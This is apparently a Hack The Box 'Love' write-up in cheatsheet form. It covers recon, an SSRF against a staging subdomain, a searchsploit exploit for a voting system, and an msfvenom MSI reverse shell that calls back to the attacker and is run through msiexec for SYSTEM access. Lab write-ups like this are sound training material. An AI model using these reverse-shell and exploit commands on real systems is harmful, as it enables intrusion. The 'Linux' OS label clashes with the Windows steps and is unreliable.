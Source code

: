 # HTB: Love — Command Cheatsheet

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

---

## 🔍 Recon
```bash
nmap -sV -sC -oA scan/result $IP
```
- Found services:
  - [HTTP](HTTP) (80, 5000)
  - HTTPS
  - [SMB](SMB)
  - [MySQL](MySQL.md)

Update `/etc/hosts`:
```bash
echo "$IP love.htb staging.love.htb" | sudo tee -a /etc/hosts
```

---

## 🕵️‍ HTTP Enumeration
```bash
gobuster dir --url "http://love.htb/" -w /usr/share/dirb/wordlists/small.txt -x php,txt,config -o http.txt
```
- Result: Nothing interesting found

Search for vulnerable software:
```bash
searchsploit "Voting System"
```
- Found exploit for PHP Voting System (needs credentials)

---

## 📉 Port 5000
- Access denied (403)

---

## 📃 HTTPS Certificate
- View for domain/subdomain info

---

## 📢 staging.love.htb (HTTP)
- Has a URL input field
- Test for SSRF:

```http
GET / HTTP/1.1
Host: staging.love.htb
...
Input URL: http://127.0.0.1:5000
```
- ✅ SSRF Works

---

## 🔨 Exploitation
Copy exploit:
```bash
searchsploit -m 49445.py
```
Edit and run exploit to leverage SSRF and gain access.

---

## 🥵 Privilege Escalation
- Upload **WinPEAS** for local enumeration.
- Detected: `msiexec` install privileges ✅

Generate reverse shell payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=tun0 lport=9002 -f msi -o exploit2.msi
```

Upload to target, then execute:
```bash
msiexec /quiet /qn /i exploit2.msi
```

---

## ✅ Root Access
- Reverse shell received with NT AUTHORITY privileges

---

## 📑 Summary
- Used SSRF on subdomain to reach an internal service
- Exploited a vulnerable Voting System
- Privilege escalation via MSI installation permissions